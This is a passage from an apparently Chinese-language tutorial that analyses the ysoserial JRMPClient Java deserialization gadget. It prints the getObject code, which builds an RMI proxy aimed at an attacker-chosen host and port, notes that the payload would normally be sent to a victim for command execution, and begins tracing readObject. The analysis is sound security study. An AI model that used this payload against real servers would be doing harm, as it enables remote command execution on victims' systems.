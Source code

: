 这里的 clazz 是 JRMPClient，也就是调用该类的 getObject 方法获取 payload

```bash
public Registry getObject ( final String command ) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    // 标识远程对象
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    // 远程对象通信终点
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    // 用于处理代理对象的方法调用
    RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    // 创建代理对象
    Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
        Registry.class
    }, obj);
    return proxy;
}
```

[![](assets/1701612165-1f833aba90cea6c2d2ec3e43dcd8caca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230810225321-a66baf98-378d-1.png)  
最后将返回的代理对象进行反序列化  
**第二步：将序列化的 payload 进行反序列化**  
这一步是测试所用，正常是将 payload 发送至某个受害主机，让其进行反序列化从而导致命令执行  
根据 payload 的构造，反序列化的第一步应该从 RemoteObjectInvocationHandler 类的 readObject 方法开始，在该类中没找到 readObject 方法，进而查看父类 RemoteObject 的 readObject 方法
